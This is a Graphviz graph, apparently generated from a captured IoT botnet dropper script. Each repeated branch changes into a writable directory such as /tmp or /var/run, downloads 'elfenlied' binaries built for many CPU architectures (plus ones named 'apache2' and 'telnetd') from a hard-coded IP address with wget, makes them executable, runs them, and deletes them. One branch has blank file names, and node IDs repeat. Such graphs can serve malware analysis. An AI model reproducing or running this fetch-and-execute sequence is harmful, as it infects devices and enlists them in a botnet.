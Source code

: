 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://198.175.127.110/elfenliedmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x elfenliedmips "];
12 -> 14 [label=";,"];
14 [label="./elfenliedmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf elfenliedmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://198.175.127.110/elfenliedmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x elfenliedmipsel "];
30 -> 32 [label=";,"];
32 [label="./elfenliedmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf elfenliedmipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://198.175.127.110/elfenliedsh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x elfenliedsh4 "];
48 -> 50 [label=";,"];
50 [label="./elfenliedsh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf elfenliedsh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://198.175.127.110/elfenliedx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x elfenliedx86 "];
66 -> 68 [label=";,"];
68 [label="./elfenliedx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf elfenliedx86 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://198.175.127.110/elfenliedarmv6l "];
82 -> 84 [label=";,"];
84 [label="chmod +x elfenliedarmv6l "];
84 -> 86 [label=";,"];
86 [label="./elfenliedarmv6l "];
86 -> 88 [label=";,"];
88 [label="rm -rf elfenliedarmv6l "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://198.175.127.110/elfenliedi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x elfenliedi686 "];
102 -> 104 [label=";,"];
104 [label="./elfenliedi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf elfenliedi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://198.175.127.110/elfenliedppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x elfenliedppc "];
120 -> 122 [label=";,"];
122 [label="./elfenliedppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf elfenliedppc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://198.175.127.110/elfenliedi586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x elfenliedi586 "];
138 -> 140 [label=";,"];
140 [label="./elfenliedi586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf elfenliedi586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://198.175.127.110/elfenliedm68k "];
154 -> 156 [label=";,"];
156 [label="chmod +x elfenliedm68k "];
156 -> 158 [label=";,"];
158 [label="./elfenliedm68k "];
158 -> 160 [label=";,"];
160 [label="rm -rf elfenliedm68k "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://198.175.127.110/elfenliedsparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x elfenliedsparc "];
174 -> 176 [label=";,"];
176 [label="./elfenliedsparc "];
176 -> 178 [label=";,"];
178 [label="rm -rf elfenliedsparc "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://198.175.127.110/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://198.175.127.110/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://198.175.127.110/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
